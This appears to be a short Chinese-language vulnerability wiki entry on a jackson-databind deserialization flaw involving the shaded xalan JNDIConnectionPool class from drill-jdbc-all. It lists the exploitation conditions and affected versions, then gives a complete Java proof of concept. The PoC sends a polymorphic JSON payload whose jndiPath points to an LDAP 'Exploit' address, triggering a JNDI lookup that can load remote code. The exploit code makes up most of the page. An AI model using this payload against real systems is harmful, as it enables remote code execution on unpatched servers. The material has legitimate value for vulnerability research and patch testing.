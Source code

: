 <languages /> <translate>

利用條件
--------

</translate> <translate> 開啟enableDefaultTyping()

使用了org.apache.drill.exec:drill-jdbc-all第三方依賴 </translate>

<translate>

影響版本
--------

</translate>

    jackson-databind before 2.9.10.4
    jackson-databind before 2.8.11.6
    jackson-databind before 2.7.9.7

POC
---

    package com.jacksonTest;

    import com.fasterxml.jackson.databind.ObjectMapper;

    import java.io.IOException;

    public class Poc {
       public static void main(String[] args) throws Exception {
           ObjectMapper mapper = new ObjectMapper();
           mapper.enableDefaultTyping();
           String payload = "[\"oadd.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://127.0.0.1:1099/Exploit\"}]";
           try {
               Object obj = mapper.readValue(payload, Object.class);
               mapper.writeValueAsString(obj);
           } catch (IOException e) {
               e.printStackTrace();
           }
       }
    }